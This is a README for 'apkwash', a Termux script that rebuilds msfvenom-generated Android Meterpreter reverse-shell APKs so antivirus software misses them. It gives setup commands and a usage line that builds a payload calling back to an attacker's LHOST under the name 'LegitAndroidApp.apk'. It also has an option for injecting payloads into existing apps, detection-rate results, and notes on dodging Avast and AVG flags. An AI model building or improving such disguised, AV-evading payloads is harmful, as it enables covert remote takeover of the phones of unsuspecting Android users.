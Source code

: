# apkwash for Termux
Android APK Antivirus evasion for msfvenom generated payloads.
<br>
<br>
<b> Tested on Termux without root. </b><br>
<br>
<b>Setup:</b><br>
apt update && apt upgrade<br>
git clone https://github.com/0x64656164/apkwash<br>
chmod +x apkwash<br>
mv apkwash $PREFIX/bin/.<br>
<br>
<b>On first run:</b><br>
-Downloads and places apktool.jar in the user's $PREFIX/bin directory<br>
-Generates debug keystore for signing. Places it in ~/.android/<br>
<br>
<br>
<b>Usage Example:</b><br>
apkwash -p android/meterpreter/reverse_https LHOST=<IP> LPORT=<PORT> -o LegitAndroidApp.apk<br>
<br>
<b>Output:</b><br>
\<LegitAndroidApp>.apk & \<LegitAndroidApp>.listener<br>
<br>
<b>Default values:</b><br>
	payload=android/meterpreter/reverse_https<br>
	LHOST=\<eth0 IP address><br>
	LPORT=443<br>
	output=AndroidService.apk<br>
<br>
<b>Options</b><br>
  -p | --payload 	\<payload>	This sets the payload to be generated by msfvenom.<br>
  -o | --output 	\<outfile.apk>	This sets the name of the APK created as well as the output apk file.<br>
  -x | --original 	\<infile.apk>	Input APK to inject the payload into (later update).<br>
  -g | --generate			Generate a payload using defaults<br>
  -n | --newkey 			Generate a new debug key before signing<br>
  -v | --verbose 			Don't mask output of commands<br>
  -d | --debug				Leaves the /tmp/payload files in place for review<br>
  -h | --help 				Help information<br>
<br>
<br>
<b>Antivirus detection:</b><br>
2/35 on nodistribute - 2Aug17<br>
Will be updating soon to cover these two flags.<br>
<br>
FLAGGED BY AVAST!<br>
APK:CloudRep[Susp] is the report for the suspicious app on Avast. <br>
Per Avast: "the APK:CloudRep [Susp] is a warning-like message for applications that are very new/rare/previously unseen in our userbase." Based on this alone it doesn't appear we can modify anything to avoid being flagged. It allows the user to accept the risks, or uninstall the app.<br>
<br>
<b>Modifiations:</b><br>
Feel free to open the script and make improvements. This script basically utilizes APKTool to open the package, uses sed to replace strings that flag AV, recompiles, then signs.<br>
<br>
<br>
<b>Files:</b><br>
/tmp/payload    (Main files to review: AndroidManifest.xml and the smali files)
<br>
<br>
<b>Debugging</b><br>
Run with '-d' and -'v' to display as much output along with not removing the /tmp/payload files.<br><br><br>
<b>If you are seeing other "Payload".smali files in /tmp/payload/smali/com/var1/var2/ then be sure you have an updated system (apt-get update && apt-get dist-upgrade. I have found an older msfvenom version output a different payload that will be flagged by AVG (1/35 on nodistribute). Just making sure you are completely updated should resolve this.</b>
